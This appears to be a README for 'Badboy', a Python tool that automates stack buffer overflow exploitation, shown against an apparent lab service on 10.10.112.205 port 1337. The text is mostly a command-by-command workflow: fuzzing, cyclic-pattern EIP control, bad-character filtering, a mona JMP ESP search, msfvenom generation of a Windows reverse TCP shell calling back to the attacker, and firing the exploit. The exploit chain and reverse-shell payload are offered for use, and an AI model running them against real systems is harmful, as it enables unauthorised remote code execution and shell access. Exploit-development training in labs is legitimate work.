


# Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supplying the IP, Port and Prefix.
The Prefix can be HTTP POST parameters or a command from a program, e.g in that context Help would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```

## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```


After having injected the cyclic pattern, we can see that the EIP value is being affected, copy the value in EIP
and supply it to **msf-pattern_offset**


```
msf-pattern_offset -l 1600 -q "35794234"
```


Now that we have found the correct offset, we can supply it to Badboy, to check if EIP will hold the value "CCCC" or "43434343"
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```


By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlle EIP, you can move to the next step.


## Testing and Filtering Bad Char

Bad char can be filtered quickly and easily directly from the shell.
Simply start by providing the Bad char (\x00) or "00" in our case.
All Badchars needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```


Repeat the process until every Bad chars have been filtered out.



## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```

Don't forget to revert the bytes of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the Bad chars, that you have your Offset and your have the value of EIP.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```

